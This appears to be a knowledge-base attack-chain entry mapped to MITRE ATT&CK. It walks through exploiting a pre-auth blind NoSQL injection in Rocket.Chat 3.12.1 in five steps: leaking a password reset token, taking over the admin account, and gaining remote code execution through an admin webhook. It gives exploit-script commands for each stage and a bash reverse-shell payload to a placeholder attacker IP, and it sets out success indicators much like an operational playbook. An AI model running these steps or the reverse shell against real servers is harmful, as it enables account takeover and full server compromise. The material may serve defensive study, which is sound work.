

---
tags:
  - nosql-injection
  - account-takeover
  - rce
  - rocketchat
  - mongodb
type: attack_chain
tools:
  - '[[tools/Python3]]'
  - '[[tools/pip]]'
  - '[[tools/requests]]'
  - '[[tools/git]]'
  - '[[tools/docker-compose]]'
  - '[[tools/pre_auth_nosqli.py]]'
tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Linux
  - Docker
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Request-Password-Reset-for-Target-Account]]'
  - '[[procedures/Leak-Password-Reset-Token-via-Blind-NoSQL-Injection]]'
  - '[[procedures/Reset-Target-User-Password-Using-Leaked-Token]]'
  - '[[procedures/Take-Over-Admin-Account-and-Create-Webhook-for-RCE]]'
  - '[[procedures/Interact-with-RCE-Shell-to-Verify-Access]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Valid Accounts]]'
  - '[[Command-Line Interface]]'
updated_at: '2025-12-14T17:31:30.577Z'
description: >-
  A multi-stage attack exploiting a pre-auth blind NoSQL injection in
  Rocket.Chat's getPasswordPolicy method to leak password reset tokens, achieve
  account takeover, and escalate to remote code execution via admin webhooks.
skill_level: intermediate
impact_level: high
id: 17fa5204-70d6-412b-892a-c71b98b5c43b
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Valid Accounts]]'
  - '[[Command-Line Interface]]'
---
# Pre-Auth Blind NoSQL Injection in Rocket.Chat Leading to Account Takeover and RCE

Multi-stage attack chain demonstrating a complete attack workflow exploiting a pre-auth blind NoSQL injection in Rocket.Chat to leak password reset tokens, takeover accounts, and achieve remote code execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Python3]]
- [[tools/pip]]
- [[tools/requests]]
- [[tools/git]]
- [[tools/docker-compose]]
- [[tools/pre_auth_nosqli.py]]

### Target Environment

- Rocket.Chat version 3.12.1 or vulnerable equivalent
- MongoDB backend
- Exposed on port 3000
- Docker for local reproduction
- Linux host for execution

### Initial Access Requirements

- Network access to the Rocket.Chat API endpoint (/api/v1/method.callAnon)
- Target admin email address
- No authentication required for initial injection

## Detailed Attack Procedures

### Step 1: Request Password Reset
procedure: [[procedures/Request-Password-Reset-for-Target-Account]]

**Objective**: Generate a password reset token for the target admin account stored in the MongoDB database.

**Instructions**: Use the Rocket.Chat API to send a password reset request with the target's email. This can be done via the exploit script or direct API call.

**Expected Output**: Confirmation email sent (or API response indicating success), with token now available in DB.

**Success Indicators**:
- API response code 200 with reset initiated
- No errors in request

### Step 2: Leak Password Reset Token
procedure: [[procedures/Leak-Password-Reset-Token-via-Blind-NoSQL-Injection]]

**Objective**: Exploit the NoSQL injection in getPasswordPolicy to extract the reset token character by character using blind techniques.

**Instructions**: Run the exploit script targeting the /api/v1/method.callAnon endpoint with crafted $regex payloads. The script iterates over possible characters for each position, observing response differences (policy returned on match, error on mismatch).

For example, test prefix match:

```bash
python3 pre_auth_nosqli.py 'http://target:3000' 'admin@target.com' --inject
```

**Expected Output**: Leaked full token string, e.g., "abc123def456".

**Success Indicators**:
- Successful matches for token prefixes
- Full token reconstructed without errors

### Step 3: Reset Password
procedure: [[procedures/Reset-Target-User-Password-Using-Leaked-Token]]

**Objective**: Use the leaked token to set a new attacker-controlled password, gaining login access.

**Instructions**: Submit the reset request via API with the full token and new password. No additional auth like email or 2FA required if not enabled.

Example API payload integration in script:

```bash
python3 pre_auth_nosqli.py 'http://target:3000' 'admin@target.com' --reset --token 'leaked_token' --newpass 'attackerpass'
```

**Expected Output**: Password updated successfully, login possible with new credentials.

**Success Indicators**:
- API confirmation of reset
- Successful login test

### Step 4: Admin Takeover and RCE
procedure: [[procedures/Take-Over-Admin-Account-and-Create-Webhook-for-RCE]]

**Objective**: Log in as admin and create an incoming webhook with executable script for shell access.

**Instructions**: After login, use admin privileges to create a webhook. The script payload executes server-side as rocketchat user without isolation.

```bash
python3 pre_auth_nosqli.py 'http://target:3000' 'admin@target.com' --login --create-webhook --payload 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'
```

**Expected Output**: Webhook created, reverse shell established.

**Success Indicators**:
- Webhook integration added
- Script execution confirmed

### Step 5: Verify Shell Access
procedure: [[procedures/Interact-with-RCE-Shell-to-Verify-Access]]

**Objective**: Confirm RCE by executing commands in the shell to check user context.

**Instructions**: In the interactive shell from the webhook, run verification commands.

Use [[commands/whoami-verify-user]]:

```bash
whoami
```

Then [[commands/id-check-privileges]]:

```bash
id
```

**Expected Output**: "rocketchat" for whoami; uid=65533(rocketchat) for id.

**Success Indicators**:
- Commands execute as rocketchat user
- No permission errors

## Attack Chain Summary

### Key Achievements

1. Pre-auth token leak via blind NoSQLi
2. Unauthorized admin account takeover
3. Remote code execution as server user
4. Full server compromise including DB access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Valid Accounts]]
- [[Command-Line Interface]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Credential Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
